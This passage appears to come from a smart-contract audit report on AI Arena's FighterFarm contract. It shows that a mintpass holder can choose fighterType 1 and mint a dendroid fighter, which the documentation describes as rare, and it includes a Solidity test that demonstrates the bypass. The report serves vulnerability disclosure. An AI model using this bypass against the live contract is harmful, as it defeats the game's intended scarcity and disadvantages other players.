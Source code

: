 This is then passed to [`FighterFarm::_createNewFighter`](https://github.com/code-423n4/2024-02-ai-arena/blob/main/src/FighterFarm.sol#L509):
```solidity
File: src/FighterFarm.sol

509:        bool dendroidBool = fighterType == 1;
```

Where it decides if the fighter is a dendroid or not.

According to [the documentation](https://docs.aiarena.io/gaming-competition/nft-makeup), dendroids are supposed to be rare and revealed with a story:
> 📺 **Dendroids** - Dendroids are a more exclusive class of NFTs. They have the ability to incorporate other metaverse assets (e.g. NFTs from other projects) into the Arena! These are very rare and more difficult to obtain. You’ll have to follow the story to find out how to get access to one of these!

However, anyone with a mintpass can chose to mint one.

#### PoC
Test in `test/FighterFarm.t.sol`:
```solidity
    function testRedeemMintPassDendroid() public {
        uint8[2] memory numToMint = [1, 0];
        bytes memory signature = abi.encodePacked(
            hex"20d5c3e5c6b1457ee95bb5ba0cbf35d70789bad27d94902c67ec738d18f665d84e316edf9b23c154054c7824bba508230449ee98970d7c8b25cc07f3918369481c"
        );
        string[] memory _tokenURIs = new string[](1);
        _tokenURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
        _mintPassContract.claimMintPass(numToMint, signature, _tokenURIs);
        
        // once owning one i can then redeem it for a fighter
        uint256[] memory _mintpassIdsToBurn = new uint256[](1);
        uint8[] memory _fighterTypes = new uint8[](1);
        uint8[] memory _iconsTypes = new uint8[](1);
        string[] memory _strings = new string[](1);

        _mintpassIdsToBurn[0] = 1;
        _strings[0] = "foo";
        // redeemer of mintpass can simply chose to mint a dendroid
        _fighterTypes[0] = 1;
        _iconsTypes[0] = 1;

        _mintPassContract.approve(address(_fighterFarmContract), 1);
        _fighterFarmContract.redeemMintPass(_mintpassIdsToBurn, _fighterTypes, _iconsTypes, _strings, _strings, _strings);

        // what is minted is a dendroid
        (, , , , , , , , bool dendroidBool) = _fighterFarmContract.fighters(0);
        assertTrue(dendroidBool);
    }
```
